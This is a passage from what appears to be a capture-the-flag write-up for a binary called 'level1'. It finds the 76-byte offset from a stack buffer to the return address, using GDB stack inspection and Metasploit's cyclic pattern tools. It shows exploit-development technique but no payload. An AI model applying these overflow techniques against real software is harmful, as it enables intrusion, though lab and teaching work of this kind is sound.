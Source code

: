 So the distance between the start of the buffer and the return address is:

```gdb
(gdb) print ($ebp+4) - ($esp+0x10)
$1 = 76
```

This gives us the exact number of bytes to overflow the buffer and reach EIP: **76 bytes**.

This approach avoids assumptions and is based purely on observing the actual stack layout at runtime.

Note: The decompiled source of `main()` in `decompiled_level1/main.c` confirms this finding, where the buffer is declared as:

```c
char local_50[76];
```

---

### 3. Alternative method using a pattern tool

Another way to compute the offset is to use cyclic pattern generation and offset discovery tools, such as those from Metasploit:

```bash
$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2...
```

Feed the pattern to the binary:

```bash
(gdb) run
Starting program: /home/user/level1/level1
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2...
```

It crashes:

```bash
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Launch GDB and inspect EIP:

```gdb
(gdb) info registers eip
```

```gdb
eip            0x63413563       0x63413563
```

Then back on your host:

```bash
$ msf-pattern_offset -q 0x63413563
[*] Exact match at offset 76
```
